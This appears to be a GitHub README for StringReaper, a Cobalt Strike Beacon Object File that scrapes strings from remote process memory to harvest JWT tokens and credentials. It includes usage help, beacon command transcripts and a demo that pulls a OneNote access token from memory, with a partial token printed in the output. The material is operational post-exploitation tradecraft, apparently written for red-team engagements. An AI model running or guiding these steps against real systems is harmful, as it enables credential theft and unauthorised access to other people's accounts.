 # StringReaper 
_Reaping treasures from strings in remote processes memory_
![](./images/stringreaper.png)

CobaltStrike BOF designed to carve strings out of remote process memory. This tool allows operators to carve ASCII and UTF-16 strings from targeted processes, making it effective for retrieving JWT tokens, credentials, and other sensitive data directly from memory. Over the past 3 years i've had great success in using this tool on engagements. Saves time when oping from a C2 where you don't want to have to wait on a full process dump or deal with download size issues.

Extracted strings are saved as ASCII in an output file. It uses [@anthemtotheego](https://x.com/anthemtotheego)'s code to download the output files to the CS `Downloads Tab`. If the target data isn't strings, the alternative `download` mode enables full memory section extraction.

Supports filtering memory regions by type (`private`, `image`, `mapped`, or `all`) and access permissions (`r`, `rw`, `rwx`, or `all`).

Also has some additional features such as:
- `list` mode
  - List the target memory sections details. Useful to make sure you don't accidently commit to downloading a massive amount of memory over the wire.
  - I use this to check before I use the `strings` or `download` modes.
- `peb` mode
  - Displays some of the remote processes PEB. Shows CLI strings, etc.
- `env` mode
  - Display all the environment strings of the remote process in the CS console stdout.

# Demo
_Below is a demo of getting JWT access tokens from the OneNote process `onenoteim.exe`_
- First find the process id for OneNote:
```
[02/07 16:44:28] beacon> ps
[02/07 16:44:29] [*] Process List
 PID   PPID  Name                                   Arch  Session     User
 ---   ----  ----                                   ----  -------     ----
 11576 740               onenoteim.exe              x64   1           SECURE\user
 ...
```
- Add the BOF to CS using the Script Console and `StringReaper.cna` aggressor script
- Use the BOF to get all the strings from read-write heap memory `private rw`:
```
[02/07 16:45:08] beacon> StringReaper 11576 strings private rw
[02/07 16:45:09] [*] started download of memstrings.bin (54784 bytes)
[02/07 16:45:09] [*] download of memstrings.bin is complete
```
- Go to downloads tab and sync the `memdump.bin` or `memstrings.bin` file
![](./images/csdownloadstab.png)

- Then view it locally with `cat`/`vi`/`more`/`less`/`grep`/etc
```bash
0xBoku@kamehameha:~/Desktop/out$ cat memstrings.bin | grep ey
ope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/"><s:Header>
<Header xmlns="http://schemas.microsoft.com/office/roamingservice">
<ClientInfo xmlns="http://schemas.datacontract.org/2004/07/Microsoft.Office.Web.Roaming.SoapObjects"<Client>RS_ImmersiveCache</Client><ClientVersion>16.0.14326.22094</ClientVersion><Protocol>1.0</Protocol></ClientInfo></Header></s:Header><s:Body><a:WriteSettingsRequest
xmlns="http://schemas.datacontract.org/2004/07/Microsoft.Office.Web.Roaming.SoapObjects"xmlns:a="http://schemas.microsoft.com/office/roamingservice">
<a:Identity>eyJ0eXAiOiJKV1QiLCJub25jZSI6IjNtYlJlU2FETWpBM2ZrY1B6cnBVclRBZzM1ZG1qYnFzbHVIbkZMdzdkTkUiLCJhbGciOiJSUzI1NiIsIng1dCI6IllUY2VPNUlKeXlxUjZqekRTNWlBYnBlNDJKdyIsImtpZCI6IllUY2VPNUlKeXlxUjZqekRTNWlBYnBlNDJKdyJ9.eyJhdWQiOiJo..
```


# Usage

```
beacon> help StringReaper
Usage: StringReaper PID mode option1 option2
   ._download  : download memory sections to CS Downloads tab
   |_strings   : parse strings from memory sections and download to CS Downloads tab
   |_list      : list all allocated memory sections in remote process
   |__[option1]
   |  |_ all
   |  |_ private
   |  |_ image
   |  |_ mapped
   |__[option2]
      |_ all
      |_ r
      |_ rw
      |_ rwx
     peb            : display PEB information
     
beacon> StringReaper 7744 list private rw
StringReaper BOF (Bobby Cooke|@0xBoku|github.com/boku7|linkedin.com/in/bobby-cooke/)
[+] host called home, sent: 15627 bytes
[+] received output:
Opened a handle to 7744 (PID)
0x000000EE007FA000 / 8364032          | 0x6000       / 24576    | Private  | PAGE_READWRITE             / 0x4        
0x000000EE00FFA000 / 16752640         | 0x6000       / 24576    | Private  | PAGE_READWRITE             / 0x4        
0x000000EE017FA000 / 25141248         | 0x6000       / 24576    | Private  | PAGE_READWRITE             / 0x4        
0x000000EE01FF9000 / 33525760         | 0x7000       / 28672    | Private  | PAGE_READWRITE             / 0x4        
0x000000EE027FE000 / 41934848         | 0x2000       / 8192     | Private  | PAGE_READWRITE             / 0x4      
...
Total selected memory size: 0x3465000 / 54939648

beacon> StringReaper 9548 memstrings private rw
[+] host called home, sent: 15630 bytes
[*] started download of memdump.bin (18818 bytes)
[*] download of memdump.bin is complete
[+] received output:
Opened a handle to 9548 (PID)
0x00000059B07E7000 / -1333891072      | 0x3000       / 12288    | Private  | PAGE_READWRITE             / 0x4        
0x00000059B0877000 / -1333301248      | 0x9000       / 36864    | Private  | PAGE_READWRITE             / 0x4        
0x0000020D98D70000 / -1730740224      | 0x2000       / 8192     | Private  | PAGE_READWRITE             / 0x4        
0x0000020D98DD0000 / -1730347008      | 0x2000       / 8192     | Private  | PAGE_READWRITE             / 0x4        
0x0000020D98E00000 / -1730150400      | 0x12000      / 73728    | Private  | PAGE_READWRITE             / 0x4        
0x0000020D98E13000 / -1730072576      | 0x15000      / 86016    | Private  | PAGE_READWRITE             / 0x4        
0x0000020D98E29000 / -1729982464      | 0x17000      / 94208    | Private  | PAGE_READWRITE             / 0x4        
...  
Total selected memory size: 0x6E000 / 450560
```
